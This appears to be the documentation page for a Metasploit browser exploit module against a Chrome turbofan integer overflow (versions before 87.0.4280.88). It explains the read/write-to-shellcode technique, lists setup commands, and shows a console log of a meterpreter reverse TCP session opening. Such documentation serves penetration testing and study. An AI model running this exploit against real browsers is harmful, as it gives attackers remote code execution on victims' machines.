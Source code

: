 ## Vulnerable Application

This module exploits an issue in Google Chrome versions before 87.0.4280.88 (64 bit).
The exploit makes use of an integer overflow in the SimplifiedLowering phase in turbofan.
It is used along with a typer hardening bypass using ArrayPrototypeShift to create a JSArray with a length of -1.
This is abused to gain arbitrary read/write into the isolate region.
Then an ArrayBuffer can be used to achieve absolute arbitrary read/write.
The exploit then uses WebAssembly in order to allocate a region of RWX memory, which is then replaced with the payload shellcode.

**The payload is executed within the sandboxed renderer process,
so the browser must be run with the --no-sandbox option for the payload to work correctly.**

The module is compatible with any 64bit Google Chrome (versions before 87.0.4280.88) on multiple platforms.
However, the code that writes the shellcode into the rwx region (wasm_rwx_addr) may need to be modified.

**Vulnerable Application Installation Steps**

You can download a vulnerable Chrome version from this location:
[https://chromium.cypress.io/win64/stable/87.0.4280.66](https://chromium.cypress.io/win64/stable/87.0.4280.66)

## Verification Steps

1. Do: `use exploit/multi/browser/chrome_simplifiedlowering_overflow`
2. Do: `set URIPATH / [PATH]`
3. Do: `set LHOST [IP]`
4. Do: `set SRVHOST [IP]`
5. Do: `exploit`

## Options
None

## Scenarios

### Windows 10 and Google Chrome 87.0.4280.66 with --no-sandbox

Start Google Chrome without a sandbox, e.g:
`"C:\Program Files (x86)\Google\Chrome\Application\chrome.exe" --no-sandbox`

```
msf > use exploit/multi/browser/chrome_simplifiedlowering_overflow
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf exploit(multi/browser/chrome_simplifiedlowering_overflow) > set srvport 80
srvport => 80
msf exploit(multi/browser/chrome_simplifiedlowering_overflow) > set uripath /
uripath => /
msf exploit(multi/browser/chrome_simplifiedlowering_overflow) > set srvhost 127.0.0.1
srvhost => 127.0.0.1
msf exploit(multi/browser/chrome_simplifiedlowering_overflow) > set lhost 127.0.0.1
lhost => 127.0.0.1
msf exploit(multi/browser/chrome_simplifiedlowering_overflow) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4444 
msf exploit(multi/browser/chrome) > [*] Using URL: http://127.0.0.1:80/
[*] Server started.
[*] 127.0.0.1        chrome_simplifiedlowering_overflow - Sending /index.html to Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
[*] Sending stage (3012516 bytes) to 127.0.0.1
[*] Meterpreter session 1 opened (127.0.0.1:4444 -> 127.0.0.1:44046) at 2021-04-06 16:33:05 +0530

msf exploit(multi/browser/chrome_simplifiedlowering_overflow) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > 
```
